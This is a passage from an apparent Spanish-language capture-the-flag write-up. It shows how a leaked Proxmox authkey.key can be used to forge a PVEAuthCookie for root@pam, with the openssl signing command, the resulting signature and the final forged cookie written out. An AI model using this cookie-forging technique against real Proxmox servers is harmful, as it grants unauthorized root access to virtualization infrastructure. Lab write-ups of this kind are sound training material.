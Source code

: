 ```bash
```

Si buscamos información sobre el fichero `authkey.key` en internet, nos aparecerá que con esta llave se firman las cookies con las que se accede a la consola web de Proxmox, lo que significa que, similar a lo que hicimos con el JWT, si esta llave se está usando actualmente podemos autenticarnos como quien queramos, en este caso iremos por root ya que parece ser el único usuario existente en la consola.

Buscando por internet como se firman estas cookies o directamente viendo el código Perl del backend de la consola en cuestión encontraremos que las cookies se firman utilizando SHA-1 y que el formato de estas es como sigue:

`PVE:<username>@<auth mechanism/realm>:<timestamp in hex>::<base64 signature of the previous>`

Lo primero podemos crearlo fácilmente:

`PVE:root@pam:668E795E`

Ahora solo tenemos que crear una firma SHA-1 codificada en base64 de este string utilizando la llave privada, usaré OpenSSL para esto:

```bash
❯ echo -n 'PVE:root@pam:668E795E' | openssl sha1 -sign proxmox_auth.key  | base64 -w 0
gBbukEUxkTCBgMgz+nEEr0B1YJiZKI5bPEv5TuylW100vPIEnR6Lj/gN6ThuHFRBcbcdDDWYdIZzysF1/Kichy95/+5zgVtc9zA7xST4CVJL7LwZKzvjmNYdnN4IXdmTESLtxKHP5ZAfliq43nK7A1nmr4N2LV8Jf0bvOiUr06IfJuIYY9A2KyWOGljt0fywA4bJFBPJ5huneQmvi6rOvEVwG2fUbqdUXhqU5EnMV9Xdu7K7S070axO1Hwr5t9g02ZyL6O/E0FiR2pKObWZiKlpCfkT7VO3COdjMqU9WxXRl/5Lz/pXuDQolla6JlLaFBaEsKXSI+nlwOy6C5fO+3Q==
```

Por lo que la cookie final seria entonces

`PVE:root@pam:668E795E::gBbukEUxkTCBgMgz+nEEr0B1YJiZKI5bPEv5TuylW100vPIEnR6Lj/gN6ThuHFRBcbcdDDWYdIZzysF1/Kichy95/+5zgVtc9zA7xST4CVJL7LwZKzvjmNYdnN4IXdmTESLtxKHP5ZAfliq43nK7A1nmr4N2LV8Jf0bvOiUr06IfJuIYY9A2KyWOGljt0fywA4bJFBPJ5huneQmvi6rOvEVwG2fUbqdUXhqU5EnMV9Xdu7K7S070axO1Hwr5t9g02ZyL6O/E0FiR2pKObWZiKlpCfkT7VO3COdjMqU9WxXRl/5Lz/pXuDQolla6JlLaFBaEsKXSI+nlwOy6C5fO+3Q==`

Colocandola en nuestro navegador como `PVEAuthCookie`, nos da el acceso a la consola del Proxmox:

![Proxmox 2](/assets/writeups/corporate/21.png)

